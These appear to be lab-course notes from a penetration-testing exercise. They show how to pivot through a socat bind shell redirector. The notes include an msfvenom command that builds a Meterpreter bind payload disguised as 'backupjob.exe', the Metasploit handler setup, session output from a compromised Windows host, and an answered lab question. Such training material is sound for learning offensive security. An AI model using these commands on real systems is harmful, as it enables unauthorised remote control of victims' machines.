

# Socat redirection with a Bind Shell
Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.



## Starting Socat listener
We can start a socat bind shell listener, which listens on port `8080` and forwards packets to Windows server `8443`.

```sh
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

## Creating the Windows Payload

```sh
masterofblafu@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

## Configuring & Starting the multi/handler
Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

```sh
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

## Establishing the Meterpreter Session

```sh
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

## Questions
1. What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer) **Answer: windows/x64/meterpreter/bind_tcp**